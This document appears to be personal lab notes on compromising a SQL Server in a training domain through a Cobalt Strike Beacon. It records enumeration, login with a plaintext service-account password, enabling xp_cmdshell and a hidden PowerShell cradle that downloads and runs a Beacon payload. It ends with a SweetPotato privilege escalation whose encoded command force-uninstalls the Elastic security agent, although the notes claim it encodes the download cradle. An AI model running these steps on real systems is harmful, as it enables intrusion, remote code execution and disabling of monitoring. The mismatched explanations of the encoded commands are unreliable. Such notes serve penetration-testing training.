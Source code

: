 https://github.com/NetSPI/PowerUpSQL
```
beacon> powershell-import C:\Tools\PowerUpSQL\PowerUpSQL.ps1
beacon> powershell Get-SQLInstanceDomain

ComputerName     : sql-2.dev.cyberbotic.io
Instance         : sql-2.dev.cyberbotic.io,1433
DomainAccountSid : 1500000521000672332383313895871914512914091400
DomainAccount    : mssql_svc
DomainAccountCn  : MS SQL Service
Service          : MSSQLSvc
Spn              : MSSQLSvc/sql-2.dev.cyberbotic.io:1433
LastLogon        : 8/15/2022 7:55 PM
Description      :
```

```
`Get-SQLConnectionTest` can be used to test whether or not we can connect to the database.

beacon> powershell Get-SQLConnectionTest -Instance "sql-2.dev.cyberbotic.io,1433" | fl

ComputerName : sql-2.dev.cyberbotic.io
Instance     : sql-2.dev.cyberbotic.io,1433
Status       : Accessible
```
Then use `Get-SQLServerInfo` to gather more information about the instance.
```
beacon> powershell Get-SQLServerInfo -Instance "sql-2.dev.cyberbotic.io,1433"

ComputerName           : sql-2.dev.cyberbotic.io
Instance               : SQL-2
DomainName             : DEV
ServiceProcessID       : 2668
ServiceName            : MSSQLSERVER
ServiceAccount         : DEV\mssql_svc
AuthenticationMode     : Windows Authentication
ForcedEncryption       : 0
Clustered              : No
SQLServerVersionNumber : 15.0.2000.5
SQLServerMajorVersion  : 2019
SQLServerEdition       : Standard Edition (64-bit)
SQLServerServicePack   : RTM
OSArchitecture         : X64
OsVersionNumber        : SQL
Currentlogin           : DEV\bfarmer
IsSysadmin             : No
ActiveSessions         : 1
```
SQLRecon can also enumerate servers via SPNs and fetch information about the instance with the `info` module.
```
beacon> execute-assembly C:\Tools\SQLRecon\SQLRecon\bin\Release\SQLRecon.exe /enum:sqlspns

[*] Looking for MSSQL SPNs ...
[*] 1 found.

 |-> ComputerName:  sql-2.dev.cyberbotic.io
 |-> Instance:      sql-2.dev.cyberbotic.io:1433
 |-> AccountSid:    S-1-5-21-569305411-121244042-2357301523-1115
 |-> AccountName:   mssql_svc
 |-> AccountCn:     MS SQL Service
 |-> Service:       MSSQLSvc
 |-> SPN:           MSSQLSvc/sql-2.dev.cyberbotic.io:1433
 |-> LastLogon:     1/24/0423 12:48:15 PM
 
beacon> execute-assembly C:\Tools\SQLRecon\SQLRecon\bin\Release\SQLRecon.exe /auth:wintoken /host:sql-2.dev.cyberbotic.io /module:info

[*] Extracting SQL Server information from sql-2.dev.cyberbotic.io

 |-> ComputerName:           SQL-2
 |-> DomainName:             DEV
 |-> ServicePid:             4388
 |-> ServiceName:            MSSQLSERVER
 |-> ServiceAccount:         DEV\mssql_svc
 |-> AuthenticationMode:     Windows Authentication
 |-> ForcedEncryption:       0
 |-> Clustered:              No
 |-> SqlServerVersionNumber: 15.0.2000.5
 |-> SqlServerMajorVersion:  2019
 |-> SqlServerEdition:       Standard Edition (64-bit)
 |-> SqlServerServicePack:   RTM
 |-> OsArchitecture:         X64
 |-> OsVersionNumber:        2022
 |-> CurrentLogin:           DEV\bfarmer
 |-> IsSysAdmin:             No
 |-> ActiveSessions:         1
 ```


## Exploit

Find user authenticated
Finding a user (or group) that does have access can be challenging, because without the ability to query the SQL instance to ask it, you can be stuck guessing.  One port of call is to look for appropriately named domain groups and their members.
```
beacon> powershell Get-DomainGroup -Identity *SQL* | % { Get-DomainGroupMember -Identity $_.distinguishedname | select groupname, membername }

GroupName     MemberName
---------     ----------
MS SQL Admins jking
```

OR GO AFTER mssql_svc
```
beacon> execute-assembly C:\Tools\SQLRecon\SQLRecon\bin\Release\SQLRecon.exe /a:windomain /d:dev.cyberbotic.io /u:mssql_svc /p:Cyberb0tic /i:sa /h:sql-2.dev.cyberbotic.io,1433 /m:whoami

[*] Determining user permissions on sql-2.dev.cyberbotic.io,1433
[*] Logged in as DEV\mssql_svc
[*] Mapped to the user dbo
[*] Roles:
 |-> User is a member of public role.
 |-> User is NOT a member of db_owner role.
 |-> User is NOT a member of db_accessadmin role.
 |-> User is NOT a member of db_securityadmin role.
 |-> User is NOT a member of db_ddladmin role.
 |-> User is NOT a member of db_backupoperator role.
 |-> User is NOT a member of db_datareader role.
 |-> User is NOT a member of db_datawriter role.
 |-> User is NOT a member of db_denydatareader role.
 |-> User is NOT a member of db_denydatawriter role.
 |-> User is a member of sysadmin role.
 |-> User is a member of setupadmin role.
 |-> User is a member of serveradmin role.
 |-> User is a member of securityadmin role.
 |-> User is a member of processadmin role.
 |-> User is a member of diskadmin role.
 |-> User is a member of dbcreator role.
 |-> User is a member of bulkadmin role.
 ```

### Get RCE
Impersonate user
```
beacon> execute-assembly C:\Tools\SQLRecon\SQLRecon\bin\Release\SQLRecon.exe /a:wintoken /h:sql-2.dev.cyberbotic.io,1433 /m:impersonate

[*] Enumerating accounts that can be impersonated on sql-2.dev.cyberbotic.io,1433
name | 
-------
DEV\mssql_svc |
```
Enable xp_cmdshell with sa user
```
execute-assembly C:\Tools\SQLRecon\SQLRecon\bin\Release\SQLRecon.exe /a:wintoken /h:sql-2.dev.cyberbotic.io,1433 /m:ienablexp /i:sa

[*] Enabling xp_cmdshell as 'DEV\mssql_svc' on sql-2.dev.cyberbotic.io,1433
[+] SUCCESS: Enabled xp_cmdshell on sql-2.dev.cyberbotic.io,1433.
name | value | 
---------------
xp_cmdshell | 1 |

beacon> execute-assembly C:\Tools\SQLRecon\SQLRecon\bin\Release\SQLRecon.exe /a:wintoken /h:sql-2.dev.cyberbotic.io,1433 /m:ixpcmd /i:DEV\mssql_svc /c:ipconfig

[*] Executing 'ipconfig' as 'DEV\mssql_svc' on sql-2.dev.cyberbotic.io,1433.
output | 
---------
 | 
Windows IP Configuration | 
 | 
 | 
Ethernet adapter Ethernet: | 
 | 
   Connection-specific DNS Suffix  . : ec2.internal | 
   IPv4 Address. . . . . . . . . . . : 10.10.122.25 | 
   Subnet Mask . . . . . . . . . . . : 255.255.254.0 | 
   Default Gateway . . . . . . . . . : 10.10.122.1 | 
 |
```

## Port Forward to get shell
With command execution, we can work towards executing a Beacon payload.  As with other servers in the lab, the SQL servers cannot talk directly to our team server in order to download a hosted payload.  Instead, we must setup a reverse port forward to tunnel that traffic through our C2 chain.
```
beacon> run hostname
wkstn-2

beacon> getuid
[*] You are DEV\bfarmer (admin)

beacon> powershell New-NetFirewallRule -DisplayName "8080-In" -Direction Inbound -Protocol TCP -Action Allow -LocalPort 8080

beacon> rportfwd 8080 127.0.0.1 80
[+] started reverse port forward on 8080 to 127.0.0.1:80
```
Next, host `smb_x64.ps1` at `/b` on the team server.  We know SMB will work because we can validate that port 445 is open on the target SQL server.
```
beacon> portscan 10.10.122.25 445
(ICMP) Target '10.10.122.25' is alive. [read 8 bytes]
10.10.122.25:445 (platform: 500 version: 10.0 name: SQL-2 domain: DEV)
Scanner module is complete
```
  
We can now download and execute the payload, for example:
```
powershell -w hidden -c "iex (new-object net.webclient).downloadstring('http://wkstn-2:8080/b')"

OR

powershell -w hidden -enc aQBlAHgAIAAoAG4AZQB3AC0AbwBiAGoAZQBjAHQAIABuAGUAdAAuAHcAZQBiAGMAbABpAGUAbgB0ACkALgBkAG8AdwBuAGwAbwBhAGQAcwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AdwBrAHMAdABuAC0AMgA6ADgAMAA4ADAALwBiACcAKQA=
```
  
Keep an eye on your web log so you know when the payload has been fetched.
```
01/05 15:09:07 visit (port 80) from: 127.0.0.1
	Request: GET /b
	page Serves /home/attacker/cobaltstrike/uploads/smb_x64.ps1
	null
```
  
You can then link to the Beacon.
```
beacon> link sql-2.dev.cyberbotic.io TSVCPIPE-ae2b7dc0-4ebe-4975-b8a0-06e990a41337
[+] established link to child beacon: 10.10.122.25
```


Privesc
```
beacon> execute-assembly C:\Tools\SweetPotato\bin\Release\SweetPotato.exe -p C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -a "-w hidden -enc IgBDADoAXABQAHIAbwBnAHIAYQBtACAARgBpAGwAZQBzAFwARQBsAGEAcwB0AGkAYwBcAEEAZwBlAG4AdABcAGUAbABhAHMAdABpAGMALQBhAGcAZQBuAHQALgBlAHgAZQAiACAAdQBuAGkAbgBzAHQAYQBsAGwAIAAtAC0AZgBvAHIAYwBlAA=="
```
the enc string is generated from:

```
PS C:\Users\IñakiTornos> $str = 'iex (new-object net.webclient).downloadstring('http://wkstn-2:8080/b')'
PS C:\Users\IñakiTornos> [System.Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes($str)) | clip
PS C:\Users\IñakiTornos> powershell.exe -enc aQBlAHgAIAAoAG4AZQB3AC0AbwBiAGoAZQBjAHQAIABuAGUAdAAuAHcAZQBiAGMAbABpAGUAbgB0ACkALgBkAG8AdwBuAGwAbwBhAGQAcwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AcwBxAGwALQAyAC4AZABlAHYALgBjAHkAYgBlAHIAYgBvAHQAaQBjAC4AaQBvADoAOAAwADgAMAAvAGMAJwApAA==
```

![[Pasted image 20240921233604.png]]
